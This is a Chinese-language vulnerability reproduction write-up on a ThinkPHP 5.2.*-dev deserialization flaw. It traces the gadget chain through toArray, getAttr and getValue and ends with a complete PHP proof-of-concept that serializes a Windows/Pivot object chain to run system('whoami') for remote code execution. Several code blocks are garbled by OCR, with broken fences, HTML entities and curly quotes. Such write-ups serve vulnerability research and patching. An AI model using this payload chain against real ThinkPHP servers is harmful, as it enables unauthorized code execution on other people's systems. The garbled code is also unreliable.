 ```yaml
---
title: "Thinkphp 5.2.*-dev 反序列化漏洞"
id: zhfly3178
---
```


# Thinkphp 5.2.*-dev 反序列化漏洞

## 一、漏洞简介

所有Thinkphp版本下载链接

https://packagist.org/packages/topthink/framework

## 二、漏洞影响

## 三、复现过程

### 环境搭建

```
composer create-project topthink/think=5.2.*-dev v5.2 
```

### poc演示截图

![image](../img/9fae507749799ec7d8d1843cc6ee5f62.png)

### 调用链

![image](../img/c5937d782d2ae1e8ad0db3b57de2066b.png)

### 单步调试

可以看到前面的链跟tp5.1.x的一样，这里不在列举，直接进去toArray函数，可以看到$data可控

```
public function toArray(): array
{
。。。
$data = array_merge($this->data, $this->relation); `foreach ($data as $key => $val) {

if ($val instanceof Model || $val instanceof ModelCollection) {

// 关联模型对象

if (isset($this->visible[$key])) {

$val->visible($this->visible[$key]);

} elseif (isset($this->hidden[$key])) {

$val->hidden($this->hidden[$key]);

}

// 关联模型对象

$item[$key] = $val->toArray();

} elseif (isset($this->visible[$key])) {

$item[$key] = $this->getAttr($key);

} elseif (!isset($this->hidden[$key]) && !$hasVisible) {

$item[$key] = $this->getAttr($key);

}

}

。。。` 
```

```
public function getAttr(string $name)
{
    try {
        $relation = false;
        $value    = $this->getData($name);
    } catch (InvalidArgumentException $e) {
        $relation = true;
        $value    = null;
    }

    return $this->getValue($name, $value, $relation);
} 
```

```
public function getData(string $name = null)
   {
       if (is_null($name)) {
           return $this->data;
       }

       $fieldName = $this->getRealFieldName($name);

       if (array_key_exists($fieldName, $this->data)) {
           return $this->data[$fieldName];
           ...
       }
   } 
```

```
protected function getRealFieldName(string $name): string
{
    return $this->strict ? $name : App::parseName($name);  //this->strict默认为true
} 
```

可以看到getAttr函数中的$value可控，那么导致$this->getValue($name, $value, $relation);这里的三个参数都可控，跟进$this->getValue($name, $value, $relation);

```
protected function getValue(string $name, $value, bool $relation = false)
{
    // 检测属性获取器
    $fieldName = $this->getRealFieldName($name);
    $method    = 'get' . App::parseName($name, 1) . 'Attr';

```
if (isset($this-&gt;withAttr[$fieldName])) {
   if ($relation) {
     $value = $this-&gt;getRelationValue($name);
   }

   $closure = $this-&gt;withAttr[$fieldName];
   $value   = $closure($value, $this-&gt;data); 
``` 
```

这里$fieldName、$this->withAttr，导致$closure也可控，最终直接产生RCE。如下图

![image](../img/9ad327227b78ad270b21e31af6652c48.png)

补充：

```
<?php `$a = array();

system(‘whoami’,$a);` 
```

![image](../img/b135dc17065f29ccf075c7c7d8d918b5.png)

![image](../img/2575e19baf4b56d343a181b060ff9327.png)

### poc v5.2.*-dev

```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {

trait Conversion

{

protected $append = array(“Smi1e” => “1”);

}

```
trait Attribute
{
    private $data;
    private $withAttr = array("Smi1e" =&gt; "system");

    public function get($system)
    {
        $this-&gt;data = array("Smi1e" =&gt; "$system");
    }
} 
```

}

namespace think {

abstract class Model

{

use model\concern\Attribute;

use model\concern\Conversion;

}

} `namespace think\model{

use think\Model;

class Pivot extends Model

{

public function __construct($system)

{

$this->get($system);

}

}

}

namespace{

$Conver = new think\model\Pivot(“whoami”);

$payload = new think\process\pipes\Windows($Conver);

echo base64_encode(serialize($payload));

}

?>` 
```